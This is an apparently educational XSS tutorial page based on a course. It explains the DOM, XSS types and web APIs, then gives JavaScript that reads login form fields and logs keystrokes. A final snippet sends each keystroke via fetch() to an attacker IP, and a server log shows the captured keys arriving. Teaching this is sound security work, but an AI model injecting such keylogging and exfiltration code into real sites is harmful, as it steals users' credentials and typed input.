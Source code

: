 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSS 101

{% hint style="info" %}
**Cross-Site Scripting (XSS)** is a vulnerability where an attacker injects malicious scripts into web pages viewed by other users, typically through input fields or URL parameters.
{% endhint %}

{% hint style="danger" %}
This can lead to the theft of cookies, session tokens, or other sensitive data, and can also allow attackers to perform actions on behalf of the user or deface web pages.
{% endhint %}

{% hint style="success" %}
Sanitize and escape user inputs, use Content Security Policy (CSP) headers, and validate input on both client and server sides to prevent unauthorized script execution.
{% endhint %}

## General Info

In layman's terms when a web page is loaded, the browser processes its HTML code, and creates a [**Document Object Model (DOM)**](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model) of the page, aka **DOM tree** (Figure1).

<figure><img src="../../../.gitbook/assets/html2dom.png" alt=""><figcaption><p>Figure 1: The HTML to DOM process.</p></figcaption></figure>

JavaScript is used to access and modify all of the DOM's elements in order to create dynamic HTML content. **XSS's goal is to inject JavaScript code for accessing and/or modifying the page's DOM**. For instance, if our goal was to modify the page's header (`h1`) element, we could do this using JavaScript.

```javascript
// modifying the h1 element
document.querySelector('h1').textContent = 'Hello, DOM!';
```

## XSS Types

There are mainly two XSS classifications (Figure 2):

1. Based on the level of the payload's persistence: [**Reflected**](reflected.md) vs. [**Stored**](stored.md).
2. Based on which location the payload is outputted: **Server** vs. [**Client**](dom-based.md) (_aka_ _**DOM-based**_).&#x20;

<figure><img src="../../../.gitbook/assets/xss_classification.png" alt=""><figcaption><p>Figure 2: XSS classifications.</p></figcaption></figure>

{% hint style="info" %}
* [Don't use `alert()`](https://portswigger.net/research/alert-is-dead-long-live-print), but rather `print()` or `prompt()`.
* Check for **HTML injection** first and then for XSS.
{% endhint %}

## Web APIs

There are many built-in [web APIs](https://developer.mozilla.org/en-US/docs/Web/API), but the following are the most useful from an XSS-standpoint.

<table><thead><tr><th width="132">API</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Console_API"><code>console</code></a></td><td>Used for <strong>debugging</strong> tasks, such as logging messages (<code>console.log</code>).</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Window"><code>window</code></a></td><td>Represents a window containing a DOM object. The <code>document</code> property points to the DOM document loaded in that window. Some useful properties are <code>localStorage</code>, <code>location</code>, and <code>alert</code>.</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Document"><code>document</code></a></td><td>Represents any web page loaded in the browser and serves as an entry point in the web page's content, which is the DOM tree. This is <strong>the most effective interface for exploiting an XSS flaw</strong>.</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API"><code>fetch</code></a></td><td>Allows <strong>fetching local and remote resources</strong>. It is <strong>non-blocking</strong>, i.e., the UI won't be locked up while the request is made and the response is returned. It does not return the data right away, instead, it <strong>returns a promise</strong> to complete the execution. To access the response, we need to use the <code>then</code> method and pass in a function to execute when the response is available.</td></tr></tbody></table>

## Example

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

We have an app which contains a login form and our goal is to extract the `username` and `password` field values. We can use the `document` and the `console` APIs to achieve that (Figure 3).

{% hint style="info" %}
In HTML, text boxes are created using the [`input`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/input) tag.
{% endhint %}

```javascript
// save the returned array into a variable
let inputs = document.getElementsByTagName("input")
// loop through the elements and extract their value
for (let input of inputs) {
  // log each value to the console
  console.log(input.value)
```

<figure><img src="../../../.gitbook/assets/web_xss_101_1.png" alt=""><figcaption><p>Figure 3: Extracting the values of the targeted fields.</p></figcaption></figure>

We might also want to create a custom keylogger to extract information (Figure 4).

```javascript
// a function the logs keypresses to the console
function logKey(event){
    console.log(event.key)
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

<figure><img src="../../../.gitbook/assets/web_xss_101_2.png" alt=""><figcaption><p>Figure 4: Creating a custom keylogger.</p></figcaption></figure>

If we send the above script to our target the keystrokes will be logged into their browser's console, but we won't have access to it. We can modify our script and use the `fetch` API to exfiltrate the data.

```javascript
// a function the sents keypresses to the our server via a GET request
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key);
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=I HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key= HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=L HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:56] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:56] "GET /k?key=i HTTP/1.1" 404 -
<SNIP>
```
